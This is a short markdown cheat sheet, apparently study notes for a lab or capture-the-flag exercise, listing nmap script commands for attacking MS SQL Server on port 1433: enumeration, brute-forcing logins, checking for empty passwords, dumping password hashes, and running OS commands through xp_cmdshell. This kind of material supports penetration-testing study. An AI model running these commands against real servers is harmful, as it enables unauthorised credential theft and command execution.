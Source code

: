 - MS SQL - Microsoft SQL
- Port number - 1433

### Using `nmap` to enumerate basic info

```
nmap -p 1433 <ip> --script ms-sql-info
```

- Provides basic info like name of the server

### Enumerating MS SQL NTLM info 

```
nmap -p 1433 <ip> --script ms-sql-ntlm-info --script-args mssql.instance-port=1433
```

- NTLM - NT LAN Manager (Windows authentication manager)
- Provides NetBios domain and computer name
- Provides product version. 
- Provides DNS computer and domain name. 

### Bruteforcing MS SQL logins 

```
nmap -p 1433 <ip> --script ms-sql-brute --script-args userdb=<user_file>,passdb=<pass-file>
```

### Checking for NULL passwords

```
nmap -p 1433 <ip> --script ms-sql-empty-password
```

### Running MS SQL query 

```
nmap -p 1433 <ip> --script ms-sql-query --script-args mssql.username=<user>,mssql.password=<pass>,ms-sql-query.query="SELECT * FROM master..syslogins" <host> -oN output.txt
```

- Is used to retrieve information about user logins in the "master" database of a MS SQL Server instance.
- Contains - login names, login types (ex: SQL or Windows login), password hashes etc.
- Outputting it to a text file for better readability.


### Dumping hashes

```
nmap -p 1433 <ip> --script ms-sql-dump-hashes --script-args mssql.username=<user>,mssql.password=<pass>
```

### Using shell access in the system

```
nmap -p 1433 <ip> --script ms-sql-xp-cmdshell --script-args mssql.username=<user>,mssql.password=<pass>,ms-sql-xp-cmdshell.cmd="type C:\flag.txt"
```

- You can run CMD commands with this script.